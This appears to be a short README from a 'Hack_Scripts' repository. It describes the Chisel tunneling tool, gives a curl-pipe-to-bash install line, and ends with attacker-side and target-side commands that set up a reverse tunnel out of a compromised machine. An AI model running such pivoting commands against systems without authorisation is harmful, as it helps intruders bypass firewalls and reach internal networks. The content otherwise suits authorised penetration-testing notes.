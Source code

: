# Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  1.server - runs chisel in server mode
  1.client - runs chisel in client mode
    
  Read more:
  https://github.com/jpillora/chisel
    
`chisel server -p 9000 --reverse -v`   >> Run in Attacker Machine
`chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>`   >> Run in Target Machine
 

# 
